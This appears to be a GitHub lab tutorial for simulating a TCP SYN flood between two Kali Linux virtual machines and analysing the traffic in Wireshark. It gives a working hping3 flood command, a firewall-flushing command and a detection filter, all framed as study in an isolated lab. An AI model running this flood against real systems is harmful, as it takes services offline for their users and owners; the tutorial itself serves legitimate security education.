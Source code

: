 # 🔍 SYN Flood Attack Simulation & Analysis with Wireshark (Educational Purpose)

> **⚠️ Disclaimer:** This simulation is strictly for **educational use only** in a fully controlled lab environment. Unauthorized or malicious use is **illegal** and **unethical**.

---

## 🎯 Objective

Simulate a SYN flood attack using one Kali Linux VM (Attacker) on another Kali Linux VM (Victim), and analyze the attack using Wireshark to understand the network behavior of a TCP SYN flood.

---

## 🧰 Environment Setup

- **Host OS**: Any (with VirtualBox installed)
- **VM 1 (Attacker)**: Kali Linux
- **VM 2 (Victim)**: Kali Linux
- **Virtual Network Mode**: NAT Network with static IP addresses assigned

---

## 🔌 VirtualBox Network Configuration & IP Setup

### For Both VMs:

1. Go to `Settings` → `Network`
2. Adapter 1 → Attached to: **NAT Network** (or your configured NAT) ![image](https://github.com/user-attachments/assets/bd9730bf-e9d4-48e6-ab1a-e449d2753eba)
   * If you don't have Nat Network, go to File -> Tools -> Network Manager
   * ![image](https://github.com/user-attachments/assets/bc560c40-6c65-418b-8333-6edd9baef45f)
   * ![image](https://github.com/user-attachments/assets/258c369e-3615-4509-ad65-eb180c0de2d3)

---

### Flush iptables rules
```bash
sudo iptables -F
```
Verify Connectivity
From attacker, ping victim:
```bash
ping 10.0.2.15
```
![1](https://github.com/user-attachments/assets/fafe039b-40dc-4e2c-a585-b5ba62c63eb1)

Expect replies to confirm network setup.

---
### 🧪 Preparation
On Kali (Victim):
Install necessary tools and run a TCP listener:
```bash
sudo apt update
sudo apt install net-tools netcat wireshark -y
sudo nc -l -p 80
```
On Kali (Attacker):
Install hping3 and Wireshark:
```bash
sudo apt update
sudo apt install hping3 wireshark -y
```

---

### ⚔️ Launch the SYN Flood Attack
On Kali (Attacker):
Run SYN flood targeting victim:
```bash
sudo hping3 -S --flood -V -p 80 10.0.2.15
```
```-S```: Send SYN packets

```--flood```: Send packets as fast as possible

```-V```: Verbose output

```-p 80```: Target port 80 (same as victim listener)

```10.0.2.15```: Victim static IP

---

### 📈 Analyze with Wireshark
On Kali (Victim):
1. Launch Wireshark with root or sudo:
```bash
sudo wireshark
```
2. Select interface eth0 or whichever corresponds to your network.

3. Start packet capture.

4. Apply this display filter to see SYN flood traffic:
 ```bash
   tcp.flags.syn == 1 and tcp.flags.ack == 0
   ```
5. Observe:

- Large burst of SYN packets flooding in rapidly.

- No complete TCP handshake (no matching ACKs).

- Many half-open connections visible.

---

### 🧠 How to Confirm the Server is Flooded and Down

System Load: CPU will be full and unresponsive. A huge number of packet will be visible in wireshark. 
May see increased load due to handling many half-open connections.

![Screenshot (4)](https://github.com/user-attachments/assets/838efa13-2a1a-440a-9ade-0d633415c532)

---

### 🧼 Clean Up
Stop the attack on attacker with CTRL+C

Stop Wireshark capture and save the .pcap file if desired

Power off both VMs or reset IP settings if needed

### 📛 Legal Warning
Performing SYN flood attacks outside of an isolated, authorized lab environment is prohibited by law. This guide is intended only for cybersecurity students and professionals studying in ethical, simulated environments.

---

### 👨‍🎓 Author
Nahid Chowdhury, University of Dhaka
Contact: cyberxpertme@gmail.com






